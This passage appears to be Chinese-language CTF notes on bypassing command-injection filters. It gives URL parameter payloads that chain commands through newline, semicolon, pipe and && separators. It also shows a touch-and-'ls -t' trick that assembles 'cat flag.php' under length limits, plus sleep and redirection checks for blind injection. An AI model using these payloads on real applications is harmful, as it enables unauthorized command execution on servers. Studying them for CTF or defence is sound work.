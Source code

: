 ### 过滤分隔符 | &amp; ;
可以使用%0a代替，%0a其实在某种程度上是最标准的命令链接符号
```
功能	                     符号	                         payload
```
```
换行符	                     %0a	                        ?cmd=123%0als
回车符	                     %0d	                        ?cmd=123%0dls
连续指令	              ;	                                ?1=123;pwd
后台进程	              &amp;	                                ?1=123&amp;pwd
管道                          |	                                ?1=123|pwd
逻辑运算	            ||或&amp;&amp;	                        ?1=123&amp;&amp;pwd
```

### ?&gt; 代替 ;
在php中可以用?&gt;来代替最后一个`;`因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。

### 字符串长度受限
使用touch来生成文件，然后将生成的文件名拼凑成一句命令，最后执行，达到目的
```
&lt;-- cat flag.php --&gt;
替换：
touch &#34;hp&#34;
touch &#34;g.p\\&#34;
touch &#34;la\\&#34;
touch &#34;t f\\&#34;
touch &#34;ca\\&#34;
ls -t
ls -t &gt;a 将 ls -t 内容写入到a文件中
sh a
```
```
\是指换行
ls -t将文件按时间排序输出
sh命令可以从一个文件中读取命令来执行
```

### 无回显

* shell_exec等无回显函数

  * 判断

    ```
    ls;sleep 5
    ls / | sleep 5
    ```

  * 打印结果

    ```
    ?cmd=ls / | tee 1.txt
    ?cmd=ls / &gt; 1.txt
    ```
